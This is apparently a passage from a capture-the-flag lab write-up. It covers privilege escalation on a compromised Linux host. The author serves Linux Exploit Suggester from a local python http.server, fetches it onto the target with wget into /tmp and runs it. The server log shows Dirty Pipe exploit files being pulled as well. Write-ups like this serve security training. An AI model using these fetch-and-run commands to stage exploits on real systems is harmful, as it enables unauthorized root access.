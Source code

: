Then on my local machine, I installed Linux Exploit Suggester via wget. 

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

On my stabilized shell, I ran wget to my local machine to retrieve linux exploit suggester and make it available on my target's shell.

```bash
wget http://10.10.146.120:8000/les.sh -O /tmp/les.sh
chmod +x /tmp/les.sh
/tmp/les.sh
```


## Privilege Escalation 


Installed Linux Suggester

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
--2024-09-21 15:14:45--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90858 (89K) [text/plain]
Saving to: \u2018les.sh\u2019

les.sh              100%[===================>]  88.73K  --.-KB/s    in 0.001s  

2024-09-21 15:14:45 (66.3 MB/s) - \u2018les.sh\u2019 saved [90858/90858]

```


Transferred it over python -m http.server 8000

```bash
root@ip-10-10-146-120:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.232.120 - - [21/Sep/2024 15:13:45] code 404, message File not found
10.10.232.120 - - [21/Sep/2024 15:13:45] "GET /linux-exploit-suggester.sh HTTP/1.1" 404 -
10.10.232.120 - - [21/Sep/2024 15:15:16] code 404, message File not found
10.10.232.120 - - [21/Sep/2024 15:15:16] "GET /linux-exploit-suggester.sh HTTP/1.1" 404 -
10.10.232.120 - - [21/Sep/2024 15:16:13] "GET /les.sh HTTP/1.1" 200 -
10.10.232.120 - - [21/Sep/2024 15:27:34] "GET /exploit-2.c HTTP/1.1" 200 -
10.10.232.120 - - [21/Sep/2024 15:29:08] "GET /dirtypipe HTTP/1.1" 200 -

```
